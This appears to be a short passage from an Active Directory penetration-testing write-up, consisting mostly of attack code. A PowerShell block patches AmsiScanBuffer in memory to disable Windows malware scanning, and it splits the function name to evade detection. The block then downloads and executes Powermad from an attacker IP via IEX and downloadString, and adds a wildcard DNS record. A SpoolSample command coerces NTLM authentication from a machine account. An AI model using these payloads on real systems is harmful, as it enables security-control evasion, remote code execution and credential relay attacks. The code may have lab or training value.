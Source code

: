 ```powershell
    Param (
     [Parameter(Position = 0, Mandatory = $True)] [Type[]]
     $func, [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
[System.Reflection.Emit.AssemblyBuilderAccess]::Run).
    DefineDynamicModule('InMemoryModule', $false).
    DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass,
    AutoClass', [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public',
[System.Reflection.CallingConventions]::Standard, $func).
     SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType,
$func). SetImplementationFlags('Runtime, Managed')
    return $type.CreateType()
}

$a="A"
$b="msiS"
$c="canB"
$d="uffer"
[IntPtr]$funcAddr = LookupFunc amsi.dll ($a+$b+$c+$d)
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)
$buf = [Byte[]] (0xb8,0x34,0x12,0x07,0x80,0x66,0xb8,0x32,0x00,0xb0,0x57,0xc3)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 12)

# Using powermad to add DNS record for our IP
IEX(New-Object Net.WebClient).downloadString('http://10.8.0.136/Powermad.ps1')
New-ADIDNSNode -Tombstone -Verbose -Node * -Data 10.8.0.136
```

<img src="https://i.imgur.com/FhVhb2V.png"/>

<img src="https://i.imgur.com/5Ju93Ku.png"/>

https://github.com/jtmpu/PrecompiledBinaries

Using SpoolSample for coercion as it's build with .NET we can run it using dotnet inline-execute, confirming we are getting the NTLMv2 challenge response from `WS01$`

```bash
dotnet inline-execute /opt/AD-Windows-Enum/SpoolSample.exe 10.10.183.214 WIN-KINFFE92UBV@80/test
```
